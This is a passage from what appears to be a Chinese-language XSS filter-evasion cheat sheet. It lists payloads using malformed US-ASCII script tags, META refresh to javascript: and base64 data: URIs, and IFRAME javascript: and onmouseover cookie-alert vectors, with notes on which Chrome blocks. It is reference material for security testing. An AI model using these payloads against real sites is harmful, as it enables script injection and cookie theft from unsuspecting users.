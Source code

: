 US-ASCII 编码（由 Kurt Huwig 发现）。它使用了畸形的 7 位 ASCII
编码来代替 8 位。这 个 XSS
攻击向量可以绕过大多数内容过滤器，但是只在主机使用 US-ASCII
编码传输数据时有效，或者可以自己设置编码格式。相对绕过服务器端过滤，这在绕过
WAF 跨站脚本过滤时候更有效。Apache Tomcat 是目前唯一已知使用 US-ASCII
编码传输的：

``` {.html}
¼script¾alert(¢XSS¢)¼/script¾
```

### 2-60 META

META 标签可以设置刷新，这个刷新功能比较奇怪的是并不会在头部中发送一个
referrer，所以它通常用于不需要 referrer 的时候:

比如下面的刷新跳转在 chrome 中可以生效：

`<meta http-equiv="Refresh" content="3;url=http://www.haishui.NET">`

比如下面的刷新已经被 chrome 拦截，并不会发生：

`<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">`

#### 2-60-1 使用编码数据的 META

URL scheme 指令。这个非常有用因为它并不包含任何可见的 SCRIPT 单词或
JavaScript 指令,因为它使用了 base64 编码.请查看 RFC 2397
寻找更多细节。你同样可以使用具有 Base64 编码功能的 XSS 工具来编码 HTML
或 JavaScript:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">`

`（注意：chrome浏览器已经拦截data形式的刷新）`

#### 2-60-2 含有额外 URL 参数的 META

如果目标站点尝试检查 URL 是否包含"http://"，你可以用以下技术规避它(由
Moritz Naumann 提交):

`<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert ('XSS');">`

`（注意：在chrome中，会发生刷新，刷新到空白页about:blank，javascript指令alert事件并不会发生）`

### 2-61 IFRAME（chrome 即可测试）

如果可以使用 Iframe，也会有很多 XSS 问题:

`<IFRAME SRC="javascript:alert('XSS');"></IFRAME>`

### 2-62 基于事件 IFRAME（chrome 即可测试）

Iframes 和大多数其他元素可以使用下列事件(由 David Cross 提交):

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

### 2-63 FRAME（chrome 即可测试）
